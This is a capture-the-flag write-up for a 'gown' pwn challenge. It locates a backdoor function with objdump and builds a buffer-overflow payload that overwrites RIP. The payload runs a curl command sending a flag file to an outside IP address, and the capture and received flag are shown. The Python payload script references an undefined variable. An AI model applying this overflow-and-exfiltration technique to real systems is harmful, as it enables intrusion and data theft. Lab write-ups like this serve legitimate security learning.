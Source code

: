 - Static analysis with Ghidra or Objdump.

As we extracted our binary from the docker container, we can analyze it with Ghidra.
Afterwards, searching a more elegant solution for the write up, I just thought about Objdump. No need to start NSA's heavy artillery!

```bash
objdump -d gown-dock | grep "laluBackdoor"
> 	000000000061eb91 <laluBackdoor>:
```

We now have everything to generate our payload that will be comprised of 3 elements:
- A bash `curl` command to exfiltrate the flag, executed by  `laluBackdoor`
- A padding until the 72th character
- The `laluBackdoor` address to overwrite `RIP`

Of course we'd never generate our payload manually, that would be silly, let's create a script automating this right from the start. 
We would do it for the write-up anyway!  (>ᴗ•)


```python
from urllib.parse import quote,unquote
import math

def generate_payload(addr: int, payload: str) -> str:
    offset = 72 # found by testing
	# math for number of bytes in the address
    numBytes = math.ceil(addr.bit_length() / 8)

	# little endian as shown in "pwn checksec"
    encoded_addr = quote(addr.to_bytes(numBytes, 'little')) 
	padding = (offset-len(st))*"#"
	res = quote(payload + padding) + encoded_addr
    return res

x = generate_payload(0x61eb91, "curl -d @//flag/randomflagdockersayspouet.txt 11.111.111.111:49153 #")
print(x)
```

we just have to send it to the pwn chall's instance  and check our [custom python SimpleHTTPServer](https://gist.github.com/LucasParsy/3bc88bb7a7796cb0d5a218c11fa59829) supporting POST requests.

```bash
payload='curl%20-d%20%40//flag/randomflagdockersayspouet.txt%2011.111.111.111%3A49153%20%23%23%23%23%23%91%EBa'

curl -k "dyn-01.xmas.root-me.org:21951/?gown=$payload"

	POST / : b'RM{OffenSkillSaysWhat2024YouGotGowned}'

```

Well done! This chall was not that hard in the end... 
But was it?
